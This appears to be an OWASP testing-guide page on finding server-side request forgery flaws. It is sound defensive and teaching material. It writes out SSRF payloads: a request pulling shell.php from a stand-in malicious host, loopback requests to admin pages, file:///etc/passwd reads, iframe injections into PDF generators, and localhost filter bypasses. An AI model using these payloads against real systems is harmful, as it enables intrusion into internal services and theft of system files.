 # Testing for Server-Side Request Forgery

|ID          |
|------------|
|WSTG-INPV-19|

## Summary

Often web applications may have to interact with internal or external resources in order to provide certain functionality, with the expectation that only the service providing that functionality will be used, but often such functionality processes user data and if not handled properly it can open the door for injection attacks that are called Server-side Request Forgery (SSRF). A successful SSRF attack can grant the attacker access to restricted actions, internal services, or internal files within the application or the organization. In some cases it can even lead to Remote Code Execution (RCE).

## Test Objectives

- Identify SSRF injection points.
- Test if the injection points are exploitable.
- Asses the severity of the vulnerability.

## How to Test

When testing for SSRF we are trying to trick the server into loading/writing unintended content. The most common test is for local and remote file inclusion, but there is another facet to SSRF, a trust relationship that often arises with server-side request forgery where the application server is able to interact with other back-end systems that are not directly reachable by users. These systems often have non-routable private IP addresses or are restricted to certain hosts. Since they are protected by the network topology, they often lack more sophisticated controls. However internal systems often contain sensitive data or functionality.

``` http
GET https://example.com/page?page=about.php
```

If we have the above request we can test with the following payloads:

**Loading the contents of a file:**

```http
GET https://example.com/page?page=https://malicioussite.com/shell.php
```

**Get access to a restricted page:**

```http
GET https://example.com/page?page=http://localhost/admin

OR

GET https://example.com/page?page=http://127.0.0.1/admin

```

Use the loopback interface to access content restricted to the host only. This mechanism implies that if you have access to the host then you have enough privileges to directly access the `admin` page.
These kind of trust relationships, where requests originating from the local machine are handled differently than ordinary requests, are often what makes SSRF into a critical vulnerability.

**Fetch a local file:**

`https://example.com/page?page=file:///etc/passwd`

All of the payloads above can apply to any type of HTTP request, and could also be injected into header and cookie values as well.
One important note on SSRF with POST requests is that the SSRF may also manifest in a Blind manner, because the application might not return anything immediately, that data might be used in other functionality such as PDF reports, invoice/order handling, etc. which are visible to employees/staff but not necessarily the end user or tester.

You can find more on Blind SSRF [here](https://portswigger.net/web-security/ssrf/blind), or in the [References section](#references).

### PDF Generators

There are some cases where server converts uploaded file to a pdf.Try injecting `<iframe>`, `<img>`, `<base>` or `<script>` elements or CSS `url()` functions pointing to internal services.

```html
<iframe src="file:///etc/passwd" width="400" height="400">
<iframe src="file:///c:/windows/win.ini" width="400" height="400">
```

### Common Filter Bypass

Some applications block references to `localhost` and `127.0.0.1`, this can be circumvented by:

- Using alternative IP representation such as the below examples that evaluate to `127.0.01`:
  - Decimal notation: `2130706433`
  - Octal notation: `017700000001`
  - IP shortening: `127.1`
- String obfuscation
- Registering your own domain that resolves to `127.0.0.1`

Sometimes the application allows input that matches a certain expression, like a domain. That can be circumvented if the URL schema parser is not properly implemented.

- Using the `@` character: `https://expected-domain@attacker-domain`
- URL fragmentation with the `#` character: `https://attacker-domain#expected-domain`
- URL encoding
- Fuzzing
- Combinations of all of the above

For additional payloads and bypass techniques, check the [references](#references) section.

## Remediation

SSRF is known to be one of the hardest attacks to block or stop without the use of allow lists that require specific IPs and URLs to be allowed. For more on SSRF prevention, check out the [Server Side Request Forgery Prevention Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html).

## References

- [swisskyrepo: SSRF Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)
- [Reading Internal Files Using SSRF Vulnerability](https://medium.com/@neerajedwards/reading-internal-files-using-ssrf-vulnerability-703c5706eefb)
- [Abusing the AWS Metadata Service Using SSRF Vulnerabilities](https://blog.christophetd.fr/abusing-aws-metadata-service-using-ssrf-vulnerabilities/)
- [OWASP Server Side Request Forgery Prevention Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html)
- [Portswigger: SSRF](https://portswigger.net/web-security/ssrf)
- [Portswigger: Blind SSRF](https://portswigger.net/web-security/ssrf/blind)
- [Bugcrowd Webinar: SSRF](https://www.bugcrowd.com/resources/webinars/server-side-request-forgery/)
- [Hackerone Blog: SSRF](https://www.hackerone.com/blog-How-To-Server-Side-Request-Forgery-SSRF)
- [Hacker101: SSRF](https://www.hacker101.com/sessions/ssrf.html)
